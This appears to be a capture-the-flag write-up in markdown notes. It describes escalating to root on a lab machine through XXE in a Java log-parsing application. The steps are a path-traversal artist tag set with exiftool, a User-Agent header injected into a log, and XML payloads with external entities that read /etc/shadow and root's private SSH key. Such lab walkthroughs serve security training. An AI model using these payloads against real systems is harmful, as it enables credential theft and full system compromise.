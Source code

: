 # Exploitation XXE linux system
<hr>

First create the necessary image inserting an appropriate path for the exploit.

Use `exiftool` to generate the exploit image. Having in mind that this step will determine the path of the XML file to be parsed and the path has to be relative to the `/credits` folder and pass it to the server.

```
exiftool -artist="../tmp/exploit" exploit.jpg
```

Next create the XML file that will be parsed.

`/tmp/exploit_creds.xml`
```XML
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>
```

Last but not least the `redpanda.log` file must be injected with the right path to the exploit image, by simply requesting it in the web application. Inject the `User-Agent` header as follows:

![[user_agent_inj.png]]

Then check the log file

![[log.png]]

Once the string is splitted the URI will be parsed from the log (note the extra `/`).

Now execute the `credit_score` application by running:

```bash
cd /opt/credit-score/LogParser/final/target
java -jar final-1.0-jar-with-dependencies.jar 
```

The app will throw an error but running it is useful to debug how the app is parsing the PATH, in the end check the `exploit_creds.xml` file and the contents of `/etc/shadow` will be there. The root password seemed hard to crack to let's try to obtain for instance the private SSH key, changing the XML file as follows:

```XML
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///root/.ssh/id_rsa"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>
```

After some time (root ran the the functionality) the root ssh key was there.

![[root_ssh_key.png]]

Capture the root flag.







